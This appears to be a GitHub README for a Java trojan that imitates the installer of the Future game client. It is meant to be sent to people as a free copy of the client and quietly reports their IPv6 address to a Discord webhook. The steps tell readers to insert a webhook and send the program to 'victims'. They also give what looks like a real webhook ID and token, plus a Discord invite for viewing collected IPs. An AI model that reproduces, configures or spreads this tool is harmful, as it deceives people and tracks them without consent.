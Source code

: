 <p align="center">
  <a href="http://forthebadge.com/"><img src="https://forthebadge.com/images/badges/built-with-swag.svg" alt="forthebadge"/></a>
  <a href="http://forthebadge.com/"><img src="https://forthebadge.com/images/badges/mom-made-pizza-rolls.svg" alt="forthebadge"/></a>
</p>


# Future-client-ip-grabber
If someone wants Future client for free, send them this, it has the same GUI as Future installer. Grabs victims IPv6 address and sends it through a discord webhook.

## Usage

1. Go to releases tab and search for `https://github.com/Doundeway/Future-ip-grabber/releases/tag/1.0`
2. Paste your webhook into `sender webhook = new sender("https://discord.com/api/webhooks/{your webhook id}");`
3. (Optional) Paste this webhook id `836122951199227944/YxgO1S_Fh-X9OaOCs1jd6WTYoqQ3K6du54DUbHdkprZ0VkK9v0P_GFI2IgwDxLoj7jZh` to see IP's on our discord server.
4. Send it to your victim or victims (make sure they have Java installed otherwise this won't work)
5. Join this discord server to see your victims ip `https://discord.gg/TbpbZ5Xnss`
6. Do whatever you want with the ip



## Disclaimer 

Any malicious usage with this code isnt our fault. You are responsible for your own actions.
